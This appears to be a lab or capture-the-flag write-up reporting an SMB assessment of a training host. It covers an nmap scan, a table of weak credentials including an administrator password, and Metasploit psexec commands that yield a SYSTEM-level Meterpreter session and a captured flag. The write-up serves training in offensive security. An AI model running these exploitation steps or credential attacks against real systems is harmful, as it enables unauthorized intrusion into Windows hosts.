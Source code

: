### **📊 Technical Assessment Report:**
```markdown
## SMB Exploitation Technical Report

### Target Information:
- **Primary Target:** demo.ine.local (10.0.16.162)
- **Assessment Date:** 2024-07-10
- **Tools Used:** nmap 7.94SVN, Metasploit Framework 6.x
- **Methodology:** Systematic SMB security assessment

### Discovery Phase Results:
```bash
# Port scanning results
nmap demo.ine.local
# Results: Ports 135, 139, 445, 3389 open
# SMB service confirmed on ports 139/445
```

### SMB Protocol Analysis:
- **Protocol Versions:** SMB 2.0.2, 2.1.0, 3.0.0, 3.0.2, 3.1.1
- **Service Type:** Microsoft Windows SMB/CIFS
- **Authentication:** NTLM/Negotiate supported
- **Security Assessment:** Multiple protocol versions increase attack surface

### Credential Assessment Results:
| Username | Password | Access Level | Risk Level |
|----------|----------|--------------|------------|
| sysadmin | samantha | Standard User | HIGH |
| demo | victoria | Standard User | HIGH |
| auditor | elizabeth | Standard User | HIGH |
| administrator | qwertyuiop | **Administrative** | **CRITICAL** |

### Exploitation Proof:
```bash
# Successful exploitation commands
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
exploit

# Result: Meterpreter session established
# System access confirmed: SYSTEM level privileges
# Flag captured: e0da81a9cd42b261bc9b90d15f780433
```

### Evidence Collected:
- **Meterpreter Session Logs:** Complete session interaction records
- **System Information:** Windows version, patch level, user accounts
- **File System Access:** Full C:\ drive accessibility confirmed
- **Proof of Compromise:** Flag file successfully retrieved
